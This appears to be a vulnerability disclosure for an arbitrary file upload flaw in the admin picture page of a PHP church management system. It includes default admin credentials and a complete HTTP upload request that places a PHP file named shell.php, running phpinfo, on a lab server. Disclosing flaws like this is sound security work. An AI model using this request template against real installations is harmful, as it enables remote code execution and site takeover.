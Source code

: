 # Church Management System v1.0 by Godfrey De Blessed has arbitrary code execution (RCE)

BUG_Author: Cokutau-CH

vendors: https://www.sourcecodester.com/php/11206/church-management-system.html

The program is built using the xmapp-php8.1 version

Login account: admin/admin (Super Admin account)

Vulnerability url: ip/cman/admin/admin_pic.php

Loophole location: Church Management System's admin/admin_pic.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /cman/admin/admin_pic.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/cman/admin/dashboard.php
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------211491645714374
Content-Length: 327

-----------------------------211491645714374
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------211491645714374
Content-Disposition: form-data; name="change"


-----------------------------211491645714374--
```

The files will be uploaded to this directory \cman\admin\uploads

![image](https://user-images.githubusercontent.com/54017627/183247877-54e61523-f3a7-4033-8c2d-fc502c94d3b5.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183247897-83a7a591-54bb-442d-aca2-17aa10b2ffdb.png)

